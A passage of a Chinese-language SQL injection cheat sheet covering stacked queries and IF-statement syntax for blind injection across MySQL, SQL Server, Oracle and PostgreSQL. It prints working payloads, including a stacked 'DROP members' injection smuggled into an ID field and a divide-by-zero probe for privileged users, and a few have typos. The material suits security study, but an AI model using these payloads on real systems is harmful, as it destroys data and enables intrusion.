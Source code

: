 在一个事务中执行多个查询。这在每一个注入点都非常有用，尤其是后端使用了 SQL Server 的应用程序。

; （S）

SELECT * FROM members; DROP members--

结束一个查询并开始一个新的查询。

语言 / 数据库堆叠查询支持表

绿色：支持；深灰色：不支持；浅灰色：未知


 

关于 MySQL 和 PHP

阐明一些问题

PHP – MySQL 不支持堆叠查询，Java 不支持堆叠查询（Oracle 我很确定，其他的就不太确定了）。通常来说 MySQL 支持堆叠查询，但在 PHP – MySQL 应用程序中大多数配置下的数据库层都不能执行第二条查询，也许 MySQL 客户端支持这个，我并不是很确定。有人能说明下吗？

堆叠注入攻击示例

ID: 10;DROP members —

SELECT * FROM products WHERE id = 10; DROP members--

这在正常SQL查询执行后将会执行 DROP members 语句。

If语句

根据If语句得到响应。这是盲注（Blind SQL Injection）的关键点之一，在盲注和精确的简单测试中都非常有用。

MySQL 的 If 语句

IF(condition,true-part,false-part)（M）

SELECT IF(1=1,'true','false')

SQL Server 的 If 语句

IF condition true-part ELSE false-part（S）

IF (1=1) SELECT 'true' ELSE SELECT 'false'

Oracle 的 If 语句

BEGIN
IF condition THEN true-part; ELSE false-part; END IF; END;（O）

IF (1=1) THEN dbms_lock.sleep(3); ELSE dbms_lock.sleep(0); END IF; END;

PostgreSQL 的 If 语句

SELECT CASE WHEN condition THEN true-part ELSE false-part END;（P）

SELECT CASE WEHEN (1=1) THEN 'A' ELSE 'B'END;

If 语句的 SQL 注入攻击示例

if ((select user) = 'sa' OR (select user) = 'dbo') select 1 else select 1/0 (S)

如果当前登录的用户不是 ”sa” 或 “dbo”，语句会抛出 除数为0 的错误。

整数的使用
